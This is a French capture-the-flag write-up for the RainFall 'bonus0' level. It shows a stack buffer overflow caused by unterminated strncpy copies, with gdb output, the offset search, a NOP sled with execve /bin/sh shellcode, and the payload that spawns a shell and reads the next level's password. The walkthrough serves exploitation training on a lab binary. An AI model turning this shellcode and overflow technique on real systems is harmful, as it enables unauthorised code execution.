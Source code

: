 #### Etape 1 : Décompilation 
Nous trouvons un binaire bonus0 dans le répertoire lorsque nous l'analysons nous voyons que le binaire possède trois fonctions :
p(), pp() et main(). (voir souce.c).
Le binaire ne necessite pas d'argument pour être lancé. on recoit le prompt suivant :

```bash
bonus0@RainFall:~$ ./bonus0
 -
AAAAA
 -
BBBBB
AAAAA BBBBB
```
on remarque dans la fonction pp que les deux chaines on un buffer de 20 bytes.
lorsque nous essayons de faire un overflow sur les 2 chaines, nous obtenons un segfault.

```bash
bonus0@RainFall:~$ ./bonus0
 -
AAAAAAAAAAAAAAAAAAAAAAAAAAAA
 -
BBBBBBBBBBBBBBBBBBBBBBBBBBBBB
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB�� BBBBBBBBBBBBBBBBBBBB��
Segmentation fault (core dumped)
bonus0@RainFall:~$
```


#### Etape 2 : Objectif

Nous decidons de overflow afin d'y inclure un ShellCode.

#### Etape 3 : Faiblesses


On voit plusieurs faiblesse avec le binaire, la première est que les deux buffers sont alignés en mémoire. on voit une fonction p() qui utilise un read et  un strncpy pour copier les 20 premiers caracteres si possible mais comme dit le man :
```bash
La fonction strncpy() est identique, sauf qu’au plus n  octets  de  src
       sont  copiés.  Attention :  s’il  n’y a pas de caractère nul dans les n
       premiers octets de src, la chaîne résultante dans dest ne disposera pas
       de caractère nul final.
```
Donc le buffer final sera remplis de 20 chars + 20 char + 1 espaces + 20 chars comme vu plus haut.


#### Etape 4 : Plan d'action

Premiere etape etait de trouver l'offset
J'ai généré un buffer grâce à : https://wiremask.eu/tools/buffer-overflow-pattern-generator
En éxécutant le programme depuis gdb avec le buffer en question j'obtiens une adresse qui correspond au dernier caractère écrit avant le SegFault. Ce qui me permet de les identifier et obtenir la valeur de 9.

Nous allons remplir le grand buffer de read dans la fonction p() avec des NOPs et un shellcode avec un padding supperieur a 61 bytes pour atteindre l'adresse de retour de la fonction p().

```bash
bonus0@RainFall:~$ python -c "print '\x90' * 200 +'\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80'" > /tmp/hugo

[...]
(gdb) b main
Breakpoint 1 at 0x80485a7
(gdb) b read
Breakpoint 2 at 0xb7f0a1f0
(gdb) run < /tmp/hugo

[...]
(gdb) disass p
Dump of assembler code for function p:
   0x080484b4 <+0>:	push   %ebp
   0x080484b5 <+1>:	mov    %esp,%ebp
   0x080484b7 <+3>:	sub    $0x1018,%esp
   0x080484bd <+9>:	mov    0xc(%ebp),%eax
   0x080484c0 <+12>:	mov    %eax,(%esp)
   0x080484c3 <+15>:	call   0x80483b0 <puts@plt>
   0x080484c8 <+20>:	movl   $0x1000,0x8(%esp)
   0x080484d0 <+28>:	lea    -0x1008(%ebp),%eax
   0x080484d6 <+34>:	mov    %eax,0x4(%esp)
   0x080484da <+38>:	movl   $0x0,(%esp)
   0x080484e1 <+45>:	call   0x8048380 <read@plt>
   0x080484e6 <+50>:	movl   $0xa,0x4(%esp)
   0x080484ee <+58>:	lea    -0x1008(%ebp),%eax
   0x080484f4 <+64>:	mov    %eax,(%esp)
   0x080484f7 <+67>:	call   0x80483d0 <strchr@plt>
   0x080484fc <+72>:	movb   $0x0,(%eax)
   0x080484ff <+75>:	lea    -0x1008(%ebp),%eax
   0x08048505 <+81>:	movl   $0x14,0x8(%esp)
   0x0804850d <+89>:	mov    %eax,0x4(%esp)
   0x08048511 <+93>:	mov    0x8(%ebp),%eax
   0x08048514 <+96>:	mov    %eax,(%esp)
   0x08048517 <+99>:	call   0x80483f0 <strncpy@plt>
   0x0804851c <+104>:	leave
   0x0804851d <+105>:	ret
End of assembler dump.

[...]

(gdb) x/100x $ebp-0x1008
0xbfffe650:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffe660:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffe670:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffe680:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffe690:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffe6a0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffe6b0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffe6c0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffe6d0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffe6e0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffe6f0:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffe700:	0x90909090	0x90909090	0x90909090	0x90909090
0xbfffe710:	0x90909090	0x90909090	0x99580b6a	0x2f2f6852
0xbfffe720:	0x2f686873	0x896e6962	0xcdc931e3	0x00000080
0xbfffe730:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffe740:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffe750:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffe760:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffe770:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffe780:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffe790:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffe7a0:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffe7b0:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffe7c0:	0x00000000	0x00000000	0x00000000	0x00000000
0xbfffe7d0:	0x00000000	0x00000000	0x00000000	0x00000000

```

On voit que le buffer est bien remplis de NOPs et de notre shellcode.

Ensuite avec l'offset  trouver au dessus, on va ecrire l'adresse de eip par une adresse aleatoire du NOPsled superieur au 61 bytes vu au dessus.

Nous choisissons l'adresse suivante : 0xbfffe6c0

```bash
bonus0@RainFall:~$ python -c "print 'A' * 9 +'\xc0\xe6\xff\xbf' + 'B' * 7" > /tmp/hugo1
```
Attention a bien mettre l'adresse en little endian et ne pas depasser l'adresse dans le NOPsled (ici avec B) pour ne pas ecraser le shellcode.

# Etape 5 : Execution

```bash
bonus0@RainFall:~$ python -c "print '\x90' * 200 +'\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80'" > /tmp/hugo
bonus0@RainFall:~$  python -c "print 'A' * 9 +'\xc0\xe6\xff\xbf' + 'B' * 7" > /tmp/hugo1
bonus0@RainFall:~$ (cat /tmp/hugo ; cat /tmp/hugo1 -) | ./bonus0
 -
 -
��������������������AAAAAAAAA����BBBBBBB�� AAAAAAAAA����BBBBBBB��
whoami
bonus1

cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9

```